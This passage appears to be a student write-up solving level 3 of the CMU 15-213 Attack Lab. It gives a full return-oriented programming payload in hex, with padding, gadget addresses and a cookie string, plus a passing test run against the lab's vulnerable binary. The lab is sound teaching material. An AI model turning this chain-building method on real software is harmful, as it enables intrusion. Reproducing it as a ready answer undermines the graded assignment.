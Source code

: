 <br>

We can then construct our input string:

```c
/* 40 bytes of data */
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
01 02 03 04 05 06 07 08 09 00
/* address of movq %rsp, %rax */
06 1A 40 00 00 00 00 00
/* address of movq %rax, %rdi */
A2 19 40 00 00 00 00 00
/* address of popq %rax */
AB 19 40 00 00 00 00 00
/* bias, fill up to 8 bytes, little-endian */
48 00 00 00 00 00 00 00
/* address of movl %eax, %edx */
DD 19 40 00 00 00 00 00
/* address of movl %edx, %ecx */
34 1A 40 00 00 00 00 00
/* address of movl %ecx,%esi */
13 1A 40 00 00 00 00 00
/* address of lea (%rdi,%rsi,1),%rax */
D6 19 40 00 00 00 00 00
/* address of movq %rax, %rdi */
A2 19 40 00 00 00 00 00
/* address of touch3 */
FA 18 40 00 00 00 00 00
/* cookie string */
35 39 62 39 39 37 66 61 00
```

Testing:

```
$ ./hex2raw < rtarget.l3.exploit.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```